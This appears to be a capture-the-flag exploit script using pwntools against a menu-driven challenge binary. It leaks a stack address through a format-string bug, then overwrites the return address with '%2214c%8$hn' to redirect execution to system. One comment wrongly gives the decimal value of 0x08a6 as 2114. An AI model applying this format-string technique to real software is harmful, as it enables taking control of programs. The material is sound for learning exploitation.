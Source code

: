 	def register(username,password):
	    p.recvuntil("Input your username(max lenth:20):")
	    p.sendline(username)
	    p.recvuntil("Input your password(max lenth:20):")
	    p.sendline(password)
	
	def show():
	    p.recvuntil(">")
	    p.sendline('1')
	
	def edit(username,password):
	    p.recvuntil(">")
	    p.sendline('2')
	    p.recvuntil("please input new username(max lenth:20):")
	    p.sendline(username)
	    p.recvuntil("please input new password(max lenth:20):")
	    p.sendline(password)
	
	def quit():
	    p.recvuntil(">")
	    p.sendline('3')
	
	def solve(debugs=(True,True)):
	    # return-addr:0x400d74 -> system:0x4008a6
		# libc = ELF('libc.so')
		debug1,debug2=debugs
		register("%6$p","bbb")
		offset = 0x7fffffffddc0 - 0x7fffffffdd80 + 8
		show()
		stack_top = int(p.recvline()[2:14],16)
		return_addr = stack_top-offset
		print "[*]stack top:0x%x"%stack_top
		print "[*]offset:0x%x"%offset
		print "[*]return_addr in stack:0x%x"%return_addr
		if debug1:
			gdb.attach(p,'b *0x400b28')
			quit()
		else:
			edit(username=p64(return_addr),password="%2214c%8$hn")
			# 2114 is the decimal value of 0x08a6
			if debug2:
				gdb.attach(p,'b *0x400b28')
			else:
				show()
			p.interactive()
	
	if __name__ == '__main__':
	    solve(debugs=(False,False))
    {% endcodeblock %}
